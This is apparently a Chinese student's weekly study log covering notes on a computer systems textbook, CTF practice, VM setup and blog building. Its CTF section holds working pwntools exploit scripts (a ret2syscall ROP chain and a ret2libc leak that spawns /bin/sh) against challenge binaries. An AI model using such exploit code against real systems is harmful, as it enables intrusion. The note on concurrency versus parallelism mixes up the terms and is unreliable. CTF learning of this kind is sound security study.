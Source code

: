 # 辽宁考生第不知道多少周周报

前言：本周发布了一个搭建自己的博客的任务，笔者在周一的时候尝试了一下，发现有很多报错，为了遏制笔者的拖延症发作而导致一周就完成了一个博客搭建，所以笔者把这个任务安排在了周六从而确保效率

## 本周完成任务

* 各种各样的ctf比赛和靶场
* 开始学习《深入理解计算机系统》
* 从新搭建虚拟机环境，python，pwntools，LibcSearcher，gdb
* 搭建博客

### 开始学习《深入理解计算机系统》

* C语言执行的小小本质

>C语言其实使用ASCII码来表示文本字符的，并以字节(8bit)的方式储存在文件里比如exp.c，之后源程序进入预处理器被修改为以.i为结尾的文本再进入编译器被编译为汇编程序，放入汇编器之后被重定位目标程序进入链接器最后变成可执行的二进制形式目标程序

* 系统的硬件组成

![qq_pic_merged_1731140325460](C:\Users\联想\Downloads/qq_pic_merged_1731140325460.jpg)

>总线为一组横穿中各系统的电子管道，用来传输信息
>
>I/O为输入输出，分别有鼠标键盘显示器和磁盘，他们都可以看错为文件
>
>主存储器是一个临时存储是被，用来存放程序和程序处理的数据
>
>处理器就是CPU，说白了就是执行器，而由IO到CPU到主存再由主存到CPU即为一个程序的运行过程（当然也可以不过CPU直接到主存），但是聪明的开发者们发现这个传递执行方式实在太慢，所以再CPU里开发了Lx告诉缓存存储器，它比主存小但是更加快速

* 并发与并行

  当处理器为多核的时候一个程序可以拆分多个步骤，让这些核分别处理这些步骤，这就叫做并发

  并行就是并发的并发，并发只一个程序，而并行指多个程序一起并发

### 各种各样的ctf比赛

做的好多题都忘记是啥了，我就随手写我记得写出来的吧

* ret2syscall

  三十二位静态链接，看到gets溢出点,用ROPgadget可以分别找到poprdi，eax，ebx，ecx，edx，int0x80以及binsh，那就直接ret2syscall

  ```python
  from pwn import *
  elf=ELF('/home/michael/下载/ret2syscall')
  p=process('/home/michael/下载/ret2syscall' )
  eax=0x080bb196
  ebx=0x080481c9
  ecx_edx=0x0806eb91
  binsh=0x080be408
  int0x80=0x08049421
  payload=b'a'*0x84+p32(eax)+p32(0xb)+p32(ebx)+p32(0)+p32(ecx_edx)+p32(0)+p32(binsh)+p32(int0x80)
  p.sendline(payload)
  p.interactive()
  ```

* ret2libc

  给了libc库，跟我的版本还是适配的，找到read溢出点，动态链接，不必多言

  ```python
  from pwn import *
  context.terminal = ['tmux', 'splitw', '-h', '-p', '90']
  p = process('./ret2libc')
  elf = ELF('./ret2libc')
  libc = ELF('./libc-2.35.so')
  
  pop_rdi = 0x00000000004011fb
  
  
  p.recvuntil('system!\n\n')
  gdb.attach(p, 'b *0x401256')
  
  payload = b'a'  * 0x88
  payload += p64(pop_rdi)
  payload += p64(elf.got['puts'])
  payload += p64(elf.plt['puts'])
  payload += p64(elf.sym['main'])
  p.send(payload.ljust(0x200, b'\x00'))
  
  b = p.recv(6)
  print(b)
  libc.address = u64(b.ljust(8, b'\x00')) - libc.sym['puts']
  print(hex(libc.address))
  system = libc.sym['system']
  binsh = next(libc.search(b'/bin/sh'))
  
  
  p.recvuntil('I don\'t have system!\n')
  payload = b'a'  * 0x88
  payload += p64(pop_rdi + 1)
  payload += p64(pop_rdi)
  payload += p64(binsh)
  payload += p64(system)
  p.send(payload.ljust(0x200, b'\x00'))
  
  p.interactive()
  ```

* netcat

  打开ida一看，首先需要你输入12345，在输入12345之后他会给你一个fuck_flag，这时你输入的东西都会掉进system（）函数里，我们输入/bin/sh就好啦

* chillhoodgame

  这是一道web题，做这道题不是为了转方向，只是因为和上一名只差一百分，进去之后是个游戏，笔者天真的认为把它打通关就可以get flag，于是笔者用了快两个小时去打这个无聊的游戏，最后，呵呵，卡关了

  最后抱着侥幸心理看了一眼源代码（我对web的了解就这么多），结果答案真让我审出来了，丢cyberchef里这直接出

* fence

  密码题，动机与上文类似，放到fence破译软件里枚举破译，直接找答案

* 网鼎杯pwn02

  又是一道恶心人的题呢，用pig的话说这个放在新生赛里出题人怎么想的，但是为了名次，只好在网上找一下wp啦（当然，学完栈迁移第一章的笔者也在努力研究这个wp）

  好像还刷了其他的题，但记不住了捏

  ### 再次搭建我滴小虚拟机

  没啥好说的，前两天把电脑拿回去做了个表，然后没电关机了，再打开啥啥不好使，虚拟机内存还满了，那就重新搭一个吧（想砸电脑）

  ### MYBLOG

  BMX6132.github.io

  ## 下周计划

  接着学习深入计算机这本书，顺便打一打isctf，复习，期中考试

  